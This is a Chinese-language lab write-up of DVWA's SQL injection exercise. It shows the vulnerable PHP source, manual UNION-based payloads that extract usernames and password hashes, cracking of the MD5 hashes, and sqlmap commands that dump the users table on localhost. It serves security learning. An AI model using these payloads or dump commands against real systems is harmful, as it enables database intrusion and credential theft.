## 前言

SQL注入，比较熟悉的名字。看看 DVWA 里能怎么玩吧。

## 原理

拼字符串，和命令注入原理一样。

## 解题

### 收集信息

Low难度下SQL注入是一个简单的表单。



随便提交什么东西注意到地址栏变化。



尝试提高难度继续观察。Medium难度下表单如下。



High难度表单如下。



任务是窃取用户1~5的密码。

### Low 难度

手工注入，先尝试用经典的`'`来检测。



存在注入。比较菜，继续前先看看源码再决定用什么 payload。

```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Get results
            while( $row = mysqli_fetch_assoc( $result ) ) {
                // Get values
                $first = $row["first_name"];
                $last  = $row["last_name"];

                // Feedback for end user
                echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            }

            mysqli_close($GLOBALS["___mysqli_ston"]);
            break;
        case SQLITE:
            // 略 ...
            break;
    } 
}

?>
```

目标SQL是`SELECT first_name, last_name FROM users WHERE user_id = '$id'`。在不知道被注入的SQL长什么样的时候其实比较倾向于连接一个布尔表达式，这样就有一个比较稳定的1比特观察窗口，可以拿来判断是否存在用户或者逐位猜解用户名、密码、字段名什么的。

这里先尝试连接一个 `' or 1=1 -- ` 确定注入的格式（注意 `--`后面接一个空格），但暂时不会用这个方式注入。



先尝试下 `union` 联查一下表名,`' or 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables;--`，得到这样的输出。



太长不全部截图了。接下来注意看一下可疑的表，直接 ctrl+f 在网页里搜 `user`，很快找到这里：



接着找出 `users` 表的字段名，还是通过 `information_schema` ，新的 payload如下。

```sql
' UNION SELECT c.COLUMN_NAME,c.COLUMN_TYPE  FROM information_schema.`COLUMNS` c WHERE c.TABLE_SCHEMA ='dvwa' AND c.TABLE_NAME ='users'; -- 
```



注意到字段名 `password`，接下来再 `union` 查询一下 `user_id` 和 `password` 。

`union` 注入的时候有几个我觉得可能要注意的问题：

1. 被注入的 SQL 查询了几个列（`union`的查询必须有相同数量的列），或者说有几个列的可以被观测到（查出来而且前端有变化）？这里我盲猜是两个或者三个列，所以 payload 里只写了两个列。
2. 查询出来之后有没有别的处理？如果还有别的判断，比如是静态类型的语言，`union`查询的列类型不匹配；或者有别的业务逻辑没通过，都可能失败。

注入payload：`' UNION SELECT user_id,password FROM users; --`



成功取得密码，但密码被哈希了，盲猜 md5，直接上 cmd5 解密。









5和1的哈希是一样的。到这里解密就全部完成了。

### Medium 难度



注意到几点：

1. 前端输入变成了下拉选择。
2. 变成了 post 方式请求。

接着看下代码。

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

            // Get results
            while( $row = mysqli_fetch_assoc( $result ) ) {
                // Display values
                $first = $row["first_name"];
                $last  = $row["last_name"];

                // Feedback for end user
                echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            }
            break;
        case SQLITE:
            // 略 ...
            break;
    }
}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```

注意到两个改变：

1. `mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);`，对`$id`做了转义。
2. `"SELECT first_name, last_name FROM users WHERE user_id = $id;"`，变成了数字型注入。

按理说做了转义应该就没辙了，但还是先试试。F12从开发者工具里复制出请求，然后把`id`改成`0 or 1=1; --`，注意百分号编码而且`--`后面留一个空格。

```js
await fetch("http://localhost:8080/vulnerabilities/sqli/", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "accept-language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "cache-control": "no-cache",
    "content-type": "application/x-www-form-urlencoded",
    "pragma": "no-cache",
    "sec-ch-ua": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"100\", \"Microsoft Edge\";v=\"100\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "document",
    "sec-fetch-mode": "navigate",
    "sec-fetch-site": "same-origin",
    "sec-fetch-user": "?1",
    "upgrade-insecure-requests": "1"
  },
  "referrer": "http://localhost:8080/vulnerabilities/sqli/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "id=0%20or%201%3D1%3B%20--%20&Submit=Submit",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```



好吧，这就直接成功了。到了这一步其实剩下的和 Low 难度就没区别了。

不过我对那个 `mysqli_real_escape_string` 还是很好奇，这个函数不是拿来防 SQL 注入的？查询文档如下。

> mysqli::real_escape_string -- mysqli_real_escape_string — Escapes special characters in a string for use in an SQL statement, taking into account the current charset of the connection

看用例，这个`real_escape_string`会把参数转义成合法的 SQL 字符串，也就是应该会转义处理特殊字符比如`'`，但返回结果是没有`'`的，所以即使用`real_escape_string`转义后，这个参数最多是可以被安全放到`''`里，但如果不是在`''`里的话安全隐患就一点不少。

### High 难度



High难度就比较怪了，从这个窗口输入1提交之后，页面直接刷新出了id对应的用户信息，这个交互是真没见过。接着审阅下源码。

```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

            // Get results
            while( $row = mysqli_fetch_assoc( $result ) ) {
                // Get values
                $first = $row["first_name"];
                $last  = $row["last_name"];

                // Feedback for end user
                echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            }

            ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
            break;
        case SQLITE:
            // 略 ...
            break;
    }
}

?>
```

立刻注意到 `$_SESSION['id']`，所以这个难度的注入点在会话信息中。此时考虑一个情况：会话保存在哪儿？Cookies 还是服务端？

如果保存在服务端，那么此处就没有注入的可能，因为无法控制`$_SESSION['id']`的值。先看一眼 Cookies 里有没有。

> 事后反省：我又傻逼了。那个弹出的窗口就是让你控制 `$_SESSION['id']`的。
>
> 删除一段胡乱分析的内容。

....总之，先试试`'`。



很好，还是有注入的。

接着试一试 Low 难度的 payload：`' or 1=1 --`。



好了，我觉得不用继续了，剩下无非是把 Low 难度的 payload 重复一遍。

### sqlmap

手工注入成功之后可以尝试下自动工具了。`sqlmap` 是一个非常著名的自动SQL注入工具，这里拿 sqlmap 玩一玩。

直接在虚拟机里安装 sqlmap `sudo apt install -y sqlmap`，然后开始。

```bash
sqlmap -u 'http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie 'PHPSESSID=9nmb4p6uqpf33edc0gvt0s38k5; security=low'
```

经过一大串输出和询问如何测试之后，得到下面的报告：

```plaintext
sqlmap identified the following injection point(s) with a total of 147 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=1' OR NOT 4667=4667#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=1' AND EXTRACTVALUE(2744,CONCAT(0x5c,0x7170786b71,(SELECT (ELT(2744=2744,1))),0x71627a7171))-- HCVJ&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 7426 FROM (SELECT(SLEEP(5)))bhNh)-- bKjP&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x7170786b71,0x64687569466e4454474c614e644e7543524f49417450684b547a506d65756c54576e56466255644a,0x71627a7171)#&Submit=Submit
---
```

`sqlmap` 发现 `id` 脆弱而且列出了三种攻击方式和对应的 payload，这里我使用的是 `UNION query`法，前面所说的稳定的1比特观察窗口就是 `boolean-based blind`，一种盲注攻击法。因为1比特的观察窗口虽然稳定但真的太小了，所以一般靠这个盲注的时候都是拿脚本跑（如上所示，比如用`sqlmap`来跑）。

更让人感到惊喜的是甚至给出了`id`可能可以用于反射型XSS，可以说非常牛逼了。

```plaintext
heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
```

通过添加参数还可以枚举出更多信息。

```bash
sqlmap -u 'http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie 'PHPSESSID=9nmb4p6uqpf33edc0gvt0s38k5; security=low' --dbs --tables --columns
```



一键列出表名和字段名！

然后我们直接用 sqlmap 列出 `dvwa.users` 这个表的内容。

```bash
sqlmap -u 'http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie 'PHPSESSID=9nmb4p6uqpf33edc0gvt0s38k5; security=low' -D dvwa -T users --dump
```



完成。之后可能再专门学一学 sqlmap 可以怎么玩，DVWA 确实是个好靶场。

## 总结

SQL注入还算是熟悉一点，毕竟上初中那会儿就玩过了，就是那时候不懂事根本没细看。可惜了年轻的自己就是个傻逼啊。

SQL注入没什么可总结的，熟悉SQL之后DVWA这种简单的注入是信手拈来的事情，连源码都给了，注不进去才奇怪。之后研究sqlmap的时候可能再看看都有什么注入技巧，说不定也是可以迁移到其他地方的。